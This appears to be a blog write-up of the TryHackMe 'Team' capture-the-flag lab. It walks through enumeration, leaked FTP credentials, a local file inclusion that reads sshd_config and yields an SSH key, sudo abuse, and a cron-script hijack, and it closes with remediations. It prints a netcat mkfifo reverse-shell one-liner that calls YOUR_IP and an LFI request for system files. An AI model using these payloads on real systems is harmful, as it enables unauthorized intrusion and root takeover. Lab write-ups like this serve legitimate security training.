+++
date = '2026-07-02T11:43:00+03:00'
draft = false
title = 'Team — TryHackMe'
tags = ["TryHackMe", "Linux", "Boot2Root", "Easy", "FTP", "Path Traversal", "Sudo Misconfiguration", "Cron Job", "Privilege Escalation", "CTF Writeup"]
feature = 'feature.png'
showTableOfContents = true
+++

## Overview

Beginner friendly boot2root machine. The attack chain involves discovering FTP credentials in exposed backup files, enumerating a subdomain via FTP, exploiting a local file inclusion vulnerability to leak SSH keys, and leveraging sudo and cron misconfigurations to escalate to root.

## Step 1: Reconnaissance and Enumeration

The assessment began with an nmap scan against the target IP to identify running services and potential entry points.

```
nmap -sV -sC <target_ip>
```

```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 62 vsftpd 3.0.5
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
```

**Key Findings:**

- FTP (port 21) — vsftpd 3.0.5
- SSH (port 22) — OpenSSH 8.2p1
- HTTP (port 80) — Apache 2.4.41

### Port 80 — Web Service

The target IP was added to the hosts file as `team.thm`.





A **robots.txt** file revealed a potential username — `dale`.



A **gobuster** directory scan discovered a `/scripts` directory.



```
gobuster dir -u http://team.thm/scripts -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x .txt,php
```

### /scripts — Backup Discovery



Inside `/scripts`, the file `script.txt` contained a hint on its last line suggesting an older version existed.



Downloading the `.old` version.

```
wget http://team.thm/scripts/script.old
```





The `script.old` file contained FTP credentials.

### FTP (Port 21)

Using the recovered credentials, FTP access was gained.



A file titled `New_site.txt` was discovered on the FTP server.



This file revealed another username (`gyles`) and hinted at a `.dev` subdomain.



The subdomain was added to the hosts file.

```
<target_ip> team.thm dev.team.thm
```

### dev.team.thm — Local File Inclusion



The subdomain hosted a PHP application with a `page` parameter.



Testing the parameter for path traversal by requesting a known valid file.

```
http://dev.team.thm/script.php?page=teamshare.php
```



The parameter was confirmed vulnerable to local file inclusion (LFI).

## Step 2: Initial Access

The LFI vulnerability was used to read sensitive system files. The SSH daemon configuration was retrieved to find the location of private keys.

```
http://dev.team.thm/script.php?page=/etc/ssh/sshd_config
```

The configuration revealed an `id_rsa` key belonging to `dale`. The key was extracted and used for SSH access.

```
chmod 600 id_rsa
ssh -i id_rsa dale@team.thm
```



## Step 3: Lateral Movement — dale to gyles

Once connected as `dale`, sudo privileges were checked.

```
sudo -l
```



User `dale` can run `/home/gyles/admin_checks` as `gyles` without a password.

```
sudo -u gyles /home/gyles/admin_checks
```

The script was examined for injection points.



By injecting a reverse shell into the script execution, a shell as `gyles` was obtained.



## Step 4: Privilege Escalation — gyles to root

Checking `gyles`'s `.bash_history` revealed a cron job executing a backup script as root.



Since `gyles` was a member of the `admin` group, the backup script was writable.



A reverse shell payload was appended to the backup script.

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP 4444 >/tmp/f" >> /path/to/backup/script
```

A listener was set up and the cron job executed shortly after, granting a root shell.

```
nc -lnvp 4444
```



## Conclusion

This beginner-friendly box demonstrated a clean attack chain spanning multiple common misconfigurations:

1. **Exposed backup files** in a web directory leaked FTP credentials.
2. **FTP enumeration** revealed a subdomain and additional usernames.
3. **Local file inclusion** allowed reading arbitrary files, leaking SSH private keys.
4. **Sudo misconfiguration** on a custom script enabled lateral movement.
5. **Writable cron script** via group membership escalated to root.

### Remediations

- Remove backup files (`.old`) from publicly accessible web directories.
- Avoid storing plaintext credentials on FTP servers.
- Validate and sanitize user input in file inclusion parameters.
- Regularly audit sudo permissions and group memberships.
- Restrict write permissions on cron job scripts to prevent unauthorized modification.
